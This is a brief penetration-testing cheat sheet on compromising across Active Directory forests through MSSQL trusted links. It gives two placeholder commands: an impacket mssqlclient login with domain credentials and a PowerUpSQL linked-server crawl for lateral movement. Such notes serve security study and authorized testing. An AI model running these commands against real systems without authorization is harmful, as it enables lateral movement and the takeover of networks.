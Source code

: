 # Forest to Forest compromise - MSSQL trusted links

#### 1) impacket-mssqlclient

    impacketmssqlclient -windows-auth DOMAIN/USER:PASSWORD@IP

### Trustlink --> sp_linkedservers --> use_link --> MSSQL Lateral Movement

#### 2) Powershell MSSQL module

    Get-SQLServerLinkCrawl -username USER -password PASSWORD -Verbose -Instance SQL_INSTANCE
